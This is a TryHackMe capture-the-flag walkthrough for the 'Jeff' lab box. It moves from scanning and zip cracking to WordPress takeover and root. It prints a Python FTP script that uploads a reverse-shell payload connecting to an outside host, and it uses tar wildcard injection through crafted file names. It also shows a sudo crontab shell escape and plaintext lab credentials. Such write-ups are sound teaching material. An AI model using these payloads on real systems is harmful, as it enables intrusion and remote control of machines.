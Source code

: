 In this walkthrough, we'll go over a challenge (hard) level box called ***Jeff*** on [TryHackMe](https://tryhackme.com/room/jeff) 

![Jeff](jeff.png)

Let's start the scanning process with nmap. The IP address would be different when you deploy it:
```bash
nmap -sTV -n -sC -T4 -p- 10.10.238.1 --open
```
Per the nmap result, it looks like ports 22 and 80 are open:
```bash
Starting Nmap 7.91 ( https://nmap.org ) at 2021-06-23 10:00 EDT
Nmap scan report for 10.10.238.1
Host is up (0.33s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 7e:43:5f:1e:58:a8:fc:c9:f7:fd:4b:40:0b:83:79:32 (RSA)
|   256 5c:79:92:dd:e9:d1:46:50:70:f0:34:62:26:f0:69:39 (ECDSA)
|_  256 ce:d9:82:2b:69:5f:82:d0:f5:5c:9b:3e:be:76:88:c3 (ED25519)
80/tcp open  http    nginx
|_http-title: Site doesn't have a title (text/html).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 18.86 seconds
```

Let's add this to the /etc/hosts file:
```bash
10.10.238.1 jeff.thm
```
![Jeff index](jeff-index-html.png)

We can run dirsearch `dirsearch -u http://jeff.thm -r -f -t 50 -x 302,400,403,500,503`:
![Jeff dirsearch](jeff-dirsearch.png)

We find a zip file called "backup.zip" under "/backups" directory:
![Jeff backups](jeff-backup-zip.png)

The backup file is password protected so we use the following script to crack the password `fcrackzip -v -D -u -p /usr/share/wordlists/rockyou.txt backup.zip`:
![Jeff crackzip](jeff-password-backup-zip.png)

Using the password of "!!Burningbird!!", we can unzip the file and there is a file called "wpadmin.bak" and it has a wordpress password of ***phO#g)C5dhIWZn3BKP***

At this point, we can run a sub-domain enumeration to find a wordpress site with the following wfuzz script `wfuzz -c -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt --hl 1 --hc 400 -H "Host: FUZZ.jeff.thm" -u http://jeff.thm -t 100`:
![Jeff wfuz](jeff-wfuz.png)

We then add "wordpress.jeff.thm" to "/etc/hosts" file after that we can go to the wordpress site:
![Jeff WP](jeff-wordpress-site.png)

We run cmsmap on the wordpress site to find potential vulnerable plugins and users `python3 cmsmap.py "http://wordpress.jeff.thm" -f W`:

![Jeff WP enum](jeff-wordpress-enum.png)

The user, jeff is found and decided to login to the wordpress site with the below credentials:

Username | Password
----------- | ----------
jeff | phO#g)C5dhIWZn3BKP

With the above credentials, we can login to the wordpress admin console:
![Jeff WP admin](jeff-WP-admin-console.png)

Trying to change the 404.php page will give us an error, in this case we need to use "php_everywhere" plugin and here are the steps:

1. Download "PHP Everywhere" Plugin
2. Install the plugin
3. Add a new page
4. Add your reverse shell in the PHP Everywhere text box:
![Jeff php everywhere](jeff-wordpress-php-everywhere.png)
5. Make sure to refer to the section with `[php_everywhere]`
6. Start a nc listener
7. Hit "Preview":
![Jeff foothold](jeff-initial-foothold.png)

Found credentials:

Source | username | password | db file | ftp file
-------- | -------- | ------------ | -------- | ---------
ftp_backup.php | backupmgr | SuperS1ckP4ssw0rd123! | db_backup/backup.sql | backup.sql

At this point, we need to use the below Python script to access the ftp server
```python
#!/usr/bin/env python3.7

from ftplib import FTP
import io
import os
import fileinput

host="172.20.0.1"
username="backupmgr"
password="SuperS1ckP4ssw0rd123!"

ftp=FTP(host=host)

ftp.login(user=username,passwd=password)
ftp.getwelcome()

ftp.set_pasv(False)
ftp.dir()
ftp.cwd('/files')

payload=io.BytesIO(b'python -c \'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.13.6.172",5556));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);\'')
empty=io.BytesIO(b'')

ftp.storlines('STOR rev.sh', payload)
ftp.storlines('STOR --checkpoint=1', empty)
ftp.storlines('STOR --checkpoint-action=exec=sh rev.sh', empty)

ftp.quit()
```

After running `chmod +x ftp.py` and running the file as follwos `./ftp.py` we receive a shell back as backupmgr:
![Jeff backupmgr](jeff-backupmgr.png)

After this second shell, we find systools in "/opt" folder, message.txt has the below note in it:
![Jeff message](jeff-message-txt.png)

We then delete message.txt and link "/var/backups/jeff.bak" to "/opt/systool/message.txt" and run systools by entering 2 and 3
![Jeff ln](jeff-ln-jeff-bak.png)
![Jeff systool](jeff-systool.png)

Let's login as jeff with su command and read the contents of user.txt (convert to MD5):
![Jeff user](jeff-jeff-user.png)

I try to run `sudo -l` and it may give us an error that it only exists in "/usr/bin/sudo" and use the absolute path with the password of ***123-My-N4M3-1z-J3ff-123***
![Jeff sudo -l](jeff-sudo-l.png)

We are able to ssh into the server with the following creds:

Username | Password
----------- | --------
jeff | 123-My-N4M3-1z-J3ff-123

After running `/usr/bin/sudo /usr/bin/crontab -e`, then press escape and type `:!/bin/sh` which will give you a root shell:
![Jeff root](jeff-root-txt.png)

Finally, we have done it, we the root user.

I hope you enjoyed this walkthrough.

[<= Go Back to TryHackMe Walkthroughs](TryHackMeWalkthroughs.md)

[<= Go Back to Main Menu](index.md)
